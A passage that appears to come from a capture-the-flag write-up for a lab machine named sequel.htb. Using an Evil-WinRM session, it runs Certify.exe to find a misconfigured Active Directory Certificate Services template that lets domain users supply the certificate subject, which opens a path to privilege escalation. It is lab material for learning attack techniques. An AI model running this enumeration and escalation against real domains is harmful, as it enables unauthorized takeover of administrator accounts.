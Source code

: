 
## ROAD TO ADMINISTRATOR
---
### Using Certify.exe
---
We are going to transfer the Certify.exe tool to our victim machine, which you can download from <a href="https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/Certify.exe" target="_blank">here</a>. With this tool, we will check whether the system is vulnerable to certificate enrollment misconfigurations.

This vulnerability arises when the Active Directory Certificate Services (ADCS) are improperly configured. In such cases, attackers can potentially request and obtain certificates from the enterprise CA without proper authorization. These misconfigurations can allow an attacker to enroll for certificates that grant elevated privileges or enable impersonation of legitimate users. By exploiting this weakness, an attacker could escalate privileges or move laterally within the network.

Using Certify.exe, we can test if the victim machine’s ADCS setup is susceptible to unauthorized certificate enrollment and assess the associated risks.


````powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Certify.exe find /vulnerable /currentuser

[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-14
92182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
````